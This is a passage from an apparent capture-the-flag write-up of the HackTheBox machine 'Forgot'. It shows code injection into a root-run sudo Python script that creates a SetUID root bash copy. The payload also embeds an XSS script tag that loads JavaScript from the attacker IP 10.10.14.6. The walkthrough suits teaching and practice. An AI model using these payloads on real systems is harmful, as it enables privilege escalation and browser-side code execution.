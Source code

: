 
And run the script:



    diego@forgot:~$ sudo /opt/security/ml_security.py
    2023-02-24 15:55:13.863306: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
    2023-02-24 15:55:13.863365: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.



`/tmp/0xdf` exists and is owned by root:



    diego@forgot:~$ ls -l /tmp/0xdf
    -rw-r--r-- 1 root root 0 Feb 24 15:54 /tmp/0xdf



#### Shell

I'll modify the payload so that it creates a SetUID copy of `bash`. I'll
initially try this, but it doesn't work:



    oxdf=exec("""import os\nos.system("cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf")""");#<script src="http://10.10.14.6/xss.js"></script>



When I run the script, it errors out:



    diego@forgot:~$ sudo /opt/security/ml_security.py
    2023-02-24 16:08:19.522389: W tensorflow/stream_executor/platform/default/dso_loader.cc:64] Could not load dynamic library 'libcudart.so.11.0'; dlerror: libcudart.so.11.0: cannot open shared object file: No such file or directory
    2023-02-24 16:08:19.522544: I tensorflow/stream_executor/cuda/cudart_stub.cc:29] Ignore above cudart dlerror if you do not have a GPU set up on your machine.
    Traceback (most recent call last):
      File "/opt/security/ml_security.py", line 125, in <module>
        ynew1 = loaded_model1.predict(Xnew)
      File "/usr/local/lib/python3.8/dist-packages/sklearn/tree/_classes.py", line 437, in predict
        X = self._validate_X_predict(X, check_input)
      File "/usr/local/lib/python3.8/dist-packages/sklearn/tree/_classes.py", line 402, in _validate_X_predict
        X = self._validate_data(X, dtype=DTYPE, accept_sparse="csr",
      File "/usr/local/lib/python3.8/dist-packages/sklearn/base.py", line 421, in _validate_data
        X = check_array(X, **check_params)
      File "/usr/local/lib/python3.8/dist-packages/sklearn/utils/validation.py", line 63, in inner_f
        return f(*args, **kwargs)
      File "/usr/local/lib/python3.8/dist-packages/sklearn/utils/validation.py", line 637, in check_array
        raise ValueError(
    ValueError: Expected 2D array, got 1D array instead:
    array=[].
    Reshape your data either using array.reshape(-1, 1) if your data has a single feature or array.reshape(1, -1) if it contains a single sample.
